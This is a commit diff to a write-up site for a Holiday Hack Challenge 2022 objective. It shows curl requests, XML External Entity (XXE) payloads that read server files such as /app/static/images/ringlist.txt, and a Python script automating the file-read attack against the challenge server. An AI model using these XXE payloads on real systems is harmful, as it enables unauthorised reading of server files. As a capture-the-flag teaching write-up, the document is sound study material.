

Before and after one commit to crahan/HolidayHackChallenge2022, an MkDocs documentation site: the page built from docs/objectives/o10.md, in a window 1280 px wide and 1400 px high, scrolled down 548 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Objective 10 done

````diff
--- a/docs/objectives/o10.md
+++ b/docs/objectives/o10.md
@@ -25,123 +25,119 @@
     Early parts of this challenge can be solved by focusing on Glamtariel's WORDS.
 
 ??? hint "eXternal Entities"
-    Sometimes we can hit web pages with XXE when they aren't expecting it!
+    Sometimes we can hit web pages with [XXE](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) when they aren't expecting it!
 
 
 ## Solution
 
-The first hint talks about using the capitalized words in the messages to solve part of the challenge:
+### Gathering additional information
 
-1. I don't know why anyone would ever ask me to TAMPER with the cookie recipe.
-2. Kringle really dislikes it if anyone tries to TAMPER with the cookie recipe Glamtariel uses
-3. I helped the elves to create the PATH here to make sure that only those invited can find their way here
-4. The elves do a great job making PATHs which are easy to follow once you see them.
-5. Did you know that I speak in many TYPEs of languages?
-6. Fake tickets to get in here? Snacks that don't taste right? How could that be?
-7. Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!
-8. Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed
-9. I like to keep track of all my rings using a simple format, although I usually don't like to discuss such things.
-10. I know I've heard through the ice cracks that Kringle is missing a special one. (i.e., special ring)
-11. Wow!, what a beautiful silver ring! I don't have one of these. I keep a list of all my rings in my RINGLIST file.
-12. I've heard Glamtariel talk in her sleep about rings using a different TYPE of language. She may be more responsive about them if you ask differently.
+While it might be tempting to dive right in and throwing HTTP requests around, it really helps to take a step back and take note of exactly what Glamtariel and the fountain are saying. As noted in one of the hints, responses containing uppercase words are important. So, let's start by dragging all three batches of four images onto both entities and collecting some additional hints.
 
-Putting the hints together, including the one we got from solving the Boria Door bonus levels, and information obtained by capturing data passing to and from our web browser from talking to the princess and the fountain, we find:
-1. Image resouces are hosted at /static/images/ (i.e. /static/images/img3-1670608613565.png)
-2. XXE in combination with the TYPE hints indicates we can probably also talk to the princess using XML
-3. Talking to the princess and the fountain happens via POST to https://glamtarielsfountain.com/dropped
-4. POST requests send 3 values: `imgDrop` (the image HTML ID), `who` (entity we're talking to), `reqtype` (json or xml)
-5. Requests need to include a valid CSRF token (i.e., ticket) and cookies
+!!! hint "Additional hints"
+    1. I helped the elves to create the PATH here to make sure that only those invited can find their way here.
+    2. I don't know why anyone would ever ask me to TAMPER with the cookie recipe. I know just how Kringle likes them.
+    3. The elves do a great job making PATHs which are easy to follow once you see them.
+    4. Kringle really dislikes it if anyone tries to TAMPER with the cookie recipe Glamtariel uses.
+    5. Did you know that I speak in many TYPEs of languages? For simplicity, I usually only communicate with this one though.
+    6. I pretty much stick to just one TYPE of language, it's a lot easier to share things that way.
+    7. Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!
+    8. Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed.
+    9. Wow!, what a beautiful silver ring! I don't have one of these. I keep a list of all my rings in my RINGLIST file.
+    10. I never heard Glamtariel mention a RINGLIST file before. If only there were a way to get a peek at that.
+    11. I like to keep track of all my rings using a SIMPLE FORMAT, although I usually don't like to discuss such things.
+    12. You know, I've heard Glamtariel talk in her sleep about rings using a different TYPE of language.
 
-Testing this out using cURL we can build the following request using cookies and ticket details copied from our web browser:
-```shell
+Sentences containing uppercase words can be grouped into four categories: the risk of cookie tampering, a path we need to build, a different type of language spoken by the princess, and the ringlist file the princess uses to store her rings in.
+
+
+### Inspecting HTTP requests and responses
+
+With a solid list of additional hints in our back pocket, we can start taking a look at what exactly goes on behing the scenes when dragging images to either the princess or the fountain. Select the tabs below to get a better understanding of the relationship between the different UI elements and how they are represented in the associated HTTP traffic.
+
+=== ":fontawesome-regular-image: Frontend - Rendered HTML"
+    ![what3words](../img/objectives/o10/frontend.png)
+
+=== ":material-chart-timeline: Backend - HTTP requests"
+    ![Extract GPS coordinates using exiftool](../img/objectives/o10/backend.png)
+
+Each time an image is dragged onto an entity, an HTTP POST request containing JSON data is sent to the `/dropped` URL path. The JSON data contains the image being dragged (1), who it was dragged to (2), and the type of request. Important to note is that each request also contains both a cookie and a [CSRF token](https://brightsec.com/blog/csrf-token/) (i.e., ticket) which is sent via the `X-Grinchum` HTTP request header (3).
+
+The JSON data in the HTTP responses contains the message from the fountain (4) and the princess (5), who the image was dropped on, and a `visit` field containing either *none* or a link to an image (6). In the example above, the link points to the [`stage2ring-eyecu_2022.png`](../artifacts/objectives/o10/stage2ring-eyecu_2022.png) image which appears on screen right before moving to the stage with the four rings.
+
+Using this information we can now use tools like [cURL](https://curl.se/), [Postman](https://www.postman.com/), [Paw](https://paw.cloud/), or even a [Python script](#automating) to partially or fully automate these HTTP requests so we don't have to go through the tedious task of manually dragging and dropping images.
+
+```shell linenums="1" title="JSON HTTP requests via cURL"
+export COOKIE='Cookie:MiniLembanh=COOKIE_VALUE_COPIED_FROM_WEB_BROWSER'
+export GRINCHUM='X-Grinchum:TICKET_VALUE_COPIED_FROM_WEB_BROWSER'
+
 curl -X POST https://glamtarielsfountain.com/dropped \
 -H "Content-Type: application/json" \
 -H "Accept: application/json" \
 -H $GRINCHUM \
 -H $COOKIE \
--d '{"imgDrop":"img1","who":"princess","reqType":"json"}'
+-d '{"imgDrop":"img2","who":"fountain","reqType":"json"}'
 ```
 
-Messages on the websites are triggered via images names img1, img2, img3, and img4. After a while they are replaced with a new set, but the names remain the same. So we can just keep sending cURL requests with updated values for `imgDrop` and `who`. After some time we will hit the part where the eye appears in the UI. In the CLI this presents itself with a response that has the `visit` field set to an image resource.
+![cURL request](../img/objectives/o10/curl_request.png){ class=border }
 
-```
-{'appResp': "Careful with the fountain! I know what you were wondering about there. It's no cause for concern. The PATH here is closed!^Between Glamtariel and Kringle, many who have tried to find the PATH here uninvited have ended up very disAPPointed. Please click away that ominous eye!", 'droppedOn': 'fountain', 'visit': 'static/images/stage2ring-eyecu_2022.png,260px,90px'}
-```
 
-These images can be downloaded, but only if you ensure the ticket and cookie information is present in the request. Once we have gone through all iterations (i.e., the princess and fountain have nothing more to say about the items), we can switch to sending XML requests to the princess.
+### Accessing the ringlist
 
-```shell
+We know the princess speaks an additional type of language (i.e., XML) and she stores here rings in a ringlist. Putting together *disAPPointed* (i.e., `/app` root), *PATHs which are easy to follow* (i.e., `/static/images/`), *my RINGLIST file* (i.e., `ringlist`), and *using a SIMPLE FORMAT* (i.e., `.txt`) helps us to determine that the location of the ringlist file is `/app/static/images/ringlist.txt`.
+
+We can now switch from JSON to XML HTTP requests and leverage [XML External Entity injection](https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing) (XXE) to access the `ringlist.txt` file. We need to make sure that the `Content-Type` header and `ReqType` field are set to *application/xml* (line 2) and *xml* (line 11), respectively. The `imgDrop` field can be used to trigger the injection itself (lines 7 and 9).
+
+```shell linenums="1" hl_lines="2 7 9 11" title="Accessing the ringlist through XXE injection"
 curl -X POST https://glamtarielsfountain.com/dropped \
 -H "Content-Type: application/xml" \
 -H "Accept: application/json" \
 -H $GRINCHUM \
 -H $COOKIE \
--d @req.xml
-```
-
-```xml
-<?xml version="1.0" encoding="UTF-8" ?>
-<root>
-<imgDrop>goldring</imgDrop>
-<who>princess</who>
-<reqType>xml</reqType>
-</root>
-```
-
-This is where the XXE exploitation comes into play and we need to use the hints provided about PATH, APP, RINGLIST, and the simple file format of the ring list. Putting those together gives us the `/app/static/images/ringlist.txt` path. We can use techniques described at https://portswigger.net/web-security/xxe#exploiting-xxe-to-retrieve-files to leverage XXE to make the server read the contents of that file. So let's modify our XML request data.
-
-```xml
-<?xml version="1.0" encoding="UTF-8" ?>
+-d '<?xml version="1.0" encoding="UTF-8" ?>
 <!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/static/images/ringlist.txt" >]>
 <root>
 <imgDrop>&xxe;</imgDrop>
 <who>princess</who>
 <reqType>xml</reqType>
-</root>
+</root>'
 ```
 
-Similar to the response we received when the eye appeared, this will also send a response back that contains a `visit` field that points to an image file which we can download, making sure to include our ticket and cookie.
+![Access the ringlist](../img/objectives/o10/access_ringlist.png){ class=border }
 
-```
-{'appResp': "Ah, you found my ring list! Gold, red, blue - so many colors! Glad I don't keep any secrets in it any more! Please though, don't tell anyone about this.^She really does try to keep things safe. Best just to put it away. (click)", 'droppedOn': 'none', 'visit': 'static/images/pholder-morethantopsupersecret63842.png,262px,100px'}
-```
 
-pholder-morethantopsupersecret63842.png gives us `x_phial_pholder_2022` with `bluering`, `redring.txt`. There's alo a reference to a gold, red, and blue ring, and from the messages we already know the princess likes silver rings as well. So we use this information to define additional paths to access files from.
+### Scavenger hunt
 
-- /app/static/images/x_phial_pholder_2022/bluering.txt
-- /app/static/images/x_phial_pholder_2022/redring.txt
-- /app/static/images/x_phial_pholder_2022/goldring.txt
-- /app/static/images/x_phial_pholder_2022/silverring.txt
-- /app/static/images/x_phial_pholder_2022/greenring.txt
+The princess' response to the ringlist request kicks off a mini scavenger hunt where every response returns a path to a PNG image holding a hint for the next request. The [first image](../artifacts/objectives/o10/pholder-morethantopsupersecret63842.png) is located at `static/images/pholder-morethantopsupersecret63842.png` and shows a pixelated folder named `x_phial_pholder_2022` which contains a `bluering.txt` and `redring.txt` file.
 
-`silverring.txt` and `greenring.txt` again yield a `visit` field with an image resource in the response. The redring-supersupersecret928164.png image file has an inscription that says "goldring_to_be_deleted.txt". So we use XXE once more with `/app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt`.
+Trying to use XXE injection to access `/app/static/images/x_phial_pholder_2022/bluering.txt` or `/app/static/images/x_phial_pholder_2022/redring.txt` doesn't yield any results. However, keeping the path but changing the filename to `silverring.txt`, which we know the princess would really *really* like to add to her collection, takes us to the next step.
 
-```
-{'appResp': "Hmmm, and I thought you wanted me to take a look at that pretty silver ring, but instead, you've made a pretty bold REQuest. That's ok, but even if I knew anything about such things, I'd only use a secret TYPE of tongue to discuss them.^She's definitely hiding something.", 'droppedOn': 'none', 'visit': 'none'}
-```
+??? note "Rom Bambidil Easter egg"
+    A request to access `/app/static/images/x_phial_pholder_2022/greenring.txt` results in a Lord of the Rings reference and [Easter egg](../easter_eggs.md#rom-bambidil)! :smile:
 
-We need to use the `imgDrop` field again to hand over the right ring, so we need to move the XXE to another field for this to work. We need the XXE because we want to trigger the secret behavior like before, but we also need the `imgDrop` field to get the proper image across.
+![Access the silver ring](../img/objectives/o10/access_silverring.png){ class=border }
 
-```xml
-<?xml version="1.0" encoding="UTF-8" ?>
-<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>
-<root>
-<imgDrop>img1</imgDrop>
-<who>princess</who>
-<reqType>&xxe;</reqType>
-</root>
-```
+The inscription on the red ring in the [second image](../artifacts/objectives/o10/redring-supersupersecret928164.png) tells us the next file is `goldring_to_be_deleted.txt`. Unfortunately, trying to access that file annoys the Princess somewhat and she tells us she thought we wanted her to look at the silver ring.
 
-```
-{'appResp': "No, really I couldn't. Really? I can have the beautiful silver ring? I shouldn't, but if you insist, I accept! In return, behold, one of Kringle's golden rings! Grinchum dropped this one nearby. Makes one wonder how 'precious' it really was to him. Though I haven't touched it myself, I've been keeping it safe until someone trustworthy such as yourself came along. Congratulations!^Wow, I have never seen that before! She must really trust you!", 'droppedOn': 'none', 'visit': 'static/images/x_phial_pholder_2022/goldring-morethansupertopsecret76394734.png,200px,290px'}
-```
+![Access the gold ring](../img/objectives/o10/access_goldring.png){ class=border }
 
-Useful:
-- HTTP response headers: Werkzeug/2.2.2 Python/3.10.8
-- There is a werkzeug console at: https://glamtarielsfountain.com/console
+
+### Exchanging the silver for the gold ring
+
+To get the golden ring, we can't just straight up grab it from the princess. Instead, we need to exchange it for the silver ring. At the start of the challenge we determined that giving something to the princess for her to look at is done through the `imgDrop` field, which means we can't use that field for triggering XXE injection anymore. Instead, we need to use the REQ and TYPE hint from the latest response and swap our XXE injection to the `reqType` field.
+
+![Exchange the gold ring](../img/objectives/o10/exchange_goldring.png){ class=border }
+
+This time, we're given the [golden ring](../artifacts/objectives/o10/goldring-morethansupertopsecret76394734.png) and with that the answer to this challenge! :thumbsup:
+
+!!! note "Automating the challenge using Python<span id="automating"></span>"
+    Clicking and dragging images or copy/pasting cURL commands can become a little tedious. [This Python script](../tools/objectives/o10/send_requests.py) automates the process by retrieving a valid cookie and CSRF token (i.e., ticket), sending the initial JSON requests, executing the necessary XXE injections, and downloading all the image assets.
+
+    ![Python script output](../img/objectives/o10/python_script_output.png)
 
 !!! done "Answer"
     `goldring-morethansupertopsecret76394734.png`
+
 
 ## Response
 
--- a/docs/artifacts/objectives/o10/send_requests.py
+++ b/docs/tools/objectives/o10/send_requests.py
@@ -2,6 +2,7 @@
 """Talk to Glamntarial."""
 import os
 from datetime import datetime
+from typing import Optional
 
 import click
 import requests
@@ -14,10 +15,10 @@
 DELAY = 120
 CSRF_TOKEN = None
 SESSION = requests.Session()
-LOOPS = 2
+LOOPS = 3  # 3 series of images
 
-imgs = ["img1", "img2", "img3", "img4"]
-
+entities = ["princess", "fountain"]
+images = ["img4", "img3", "img2", "img1"]
 files = [
     "/app/static/images/ringlist.txt",
     "/app/static/images/x_phial_pholder_2022/bluering.txt",
@@ -27,28 +28,24 @@
     "/app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt",
 ]
 
-entities = ["princess", "fountain"]
 
-
-def format_message(msg: str, msg_type: str) -> str:
-    """Format and colorize a message."""
+def printc(msg: str, msg_type: str):
+    """Pretty print a timestamped message."""
     now = datetime.now()
     timestamp = now.strftime("%Y-%m-%dT%H:%M:%S")
     message = f"{timestamp} - {msg}"
-
     msg_type_mapper = {
         "INFO": click.style(f"[-] {message}", fg="blue"),
         "SUCCESS": click.style(f"[+] {message}", fg="green"),
         "WARNING": click.style(f"[!] {message}", fg="yellow"),
         "ERROR": click.style(f"[E] {message}", fg="red"),
     }
-
-    return msg_type_mapper.get(msg_type.upper(), message)
+    click.echo(msg_type_mapper.get(msg_type.upper(), message))
 
 
 def get_csrf_token(response: requests.Response):
     """Update the value of the CSRF token."""
-    global CSRF_TOKEN
+    global CSRF_TOKEN  # pylint: disable=global-statement
 
     soup = BeautifulSoup(response.text, "html.parser")
     csrf_id = soup.find("meta", {"id": "csrf"})
@@ -57,8 +54,18 @@
         CSRF_TOKEN = csrf_id.attrs["content"]
 
 
+def print_response(json_response: dict):
+    """Pretty print an entity's response."""
+    resp_princess, resp_fountain = (
+        json_response["appResp"].replace("\n", " ").split("^")
+    )
+    printc(f"Image dropped on {json_response['droppedOn']}", "info")
+    print(f"Princess: {resp_princess}")
+    print(f"Fountain: {resp_fountain}")
+
+
 def download_file(path: str):
-    """Download a file"""
+    """Download a file."""
     filename = os.path.basename(path).split(",")[0]
     response = SESSION.get(
         f"https://glamtarielsfountain.com/{path}", headers={"X-Grinchum": CSRF_TOKEN}
@@ -67,9 +74,11 @@
     with open(filename, "wb") as fhandle:
         fhandle.write(response.content)
 
+    printc(f"Downloaded: {path}", "WARNING")
+
 
 def send_json_request(who: str, img: str):
-    """Send out a Pushover notification."""
+    """Send a JSON request."""
     response = SESSION.post(
         URL,
         timeout=TIMEOUT,
@@ -81,16 +90,14 @@
         json={"imgDrop": img, "who": who, "reqType": "json"},
     )
 
-    # print(response.headers)
-
     if response.status_code == 200:
         return response.json()
     else:
         return None
 
 
-def send_xee_xml_request(file: str):
-    """Send out a Pushover notification."""
+def send_xee_xml_request(file: str, img: Optional[str] = None):
+    """Send an XML request containing XEE."""
     response = SESSION.post(
         URL,
         timeout=TIMEOUT,
@@ -103,37 +110,9 @@
             '<?xml version="1.0" encoding="UTF-8" ?>'
             f'<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file://{file}" >]>'
             "<root>"
-            "<imgDrop>&xxe;</imgDrop>"
+            f"<imgDrop>{img or '&xxe;'}</imgDrop>"
             "<who>princess</who>"
-            "<reqType>xml</reqType>"
-            "</root>"
-        ),
-    )
-
-    if response.status_code == 200:
-        return response.json()
-    else:
-        return None
-
-
-def send_xee2_xml_request(img: str):
-    """Send out a Pushover notification."""
-    response = SESSION.post(
-        URL,
-        timeout=TIMEOUT,
-        headers={
-            "Content-Type": "application/xml",
-            "Accept": "application/json",
-            "X-Grinchum": CSRF_TOKEN,
-        },
-        data=(
-            '<?xml version="1.0" encoding="UTF-8" ?>'
-            "<!DOCTYPE foo [<!ENTITY xxe SYSTEM "
-            '"file:///app/static/images/x_phial_pholder_2022/goldring_to_be_deleted.txt" >]>'
-            "<root>"
-            f"<imgDrop>{img}</imgDrop>"
-            "<who>princess</who>"
-            "<reqType>&xxe;</reqType>"
+            f"<reqType>{'&xxe;' if img else 'xml'}</reqType>"
             "</root>"
         ),
     )
@@ -145,49 +124,45 @@
 
 
 def start():
-    """Test."""
+    """Main app entry point."""
     # Initial request to get the CSRF token (aka, Ticket)
     response = SESSION.get(URL)
     get_csrf_token(response)
 
     # Ticket and cookie details
-    click.echo(format_message(f"Ticket: {CSRF_TOKEN}", "success"))
+    printc(f"Ticket: {CSRF_TOKEN}", "success")
 
     for cookie in response.cookies:
-        click.echo(format_message(f"Cookie: {cookie}", "success"))
+        printc(f"Cookie: {cookie}", "success")
 
-    # Send JSON requests to princess and fountain until we get the 4 rings
-    click.echo(format_message("Sending JSON", "info"))
+    # Send JSON requests to the princess and fountain until asked about 3 image groups
+    printc("Sending JSON", "info")
 
     for _ in range(LOOPS):
-        for img in imgs:
-            for entity in entities:
-                json_response = send_json_request(entity, img)
-                print(json_response)
+        for entity in entities:
+            for image in images:
+                json_response = send_json_request(entity, image)
+                print_response(json_response)
 
                 if json_response["visit"] != "none":
-                    click.echo(
-                        format_message(f"Visit: {json_response['visit']}", "warning")
-                    )
                     download_file(json_response["visit"])
 
-    # Switch over to XML requests to just the princess
-    click.echo(format_message("Switching to XML", "info"))
+    # Switch over to sending XML requests to the princess
+    printc("Switching to XML", "info")
 
     for file in files:
         xml_response = send_xee_xml_request(file)
-        print(xml_response)
+        print_response(xml_response)
 
         if xml_response["visit"] != "none":
-            click.echo(format_message(f"Visit: {xml_response['visit']}", "warning"))
             download_file(xml_response["visit"])
 
-    # Final request to share the silver ring
-    xml_response = send_xee2_xml_request("img1")
-    print(xml_response)
+    # Final request to share the silver ring and retrieve the gold ring
+    printc("Give silver ring", "info")
+    xml_response = send_xee_xml_request(files[-1], "img1")
+    print_response(xml_response)
 
     if xml_response["visit"] != "none":
-        click.echo(format_message(f"Visit: {xml_response['visit']}", "warning"))
         download_file(xml_response["visit"])
 
 
````
Also changed, not shown: docs/artifacts/objectives/o10/grinchum-supersecret_9364274.png (deleted), docs/artifacts/objectives/o10/rom_bambidil.png (deleted), docs/img/objectives/o10/access_goldring.png (added), docs/img/objectives/o10/access_ringlist.png (added), docs/img/objectives/o10/access_silverring.png (added), docs/img/objectives/o10/backend.png (added), docs/img/objectives/o10/curl_request.png (added), docs/img/objectives/o10/exchange_goldring.png (added), docs/img/objectives/o10/frontend.png (added), docs/img/objectives/o10/python_script_output.png (added).
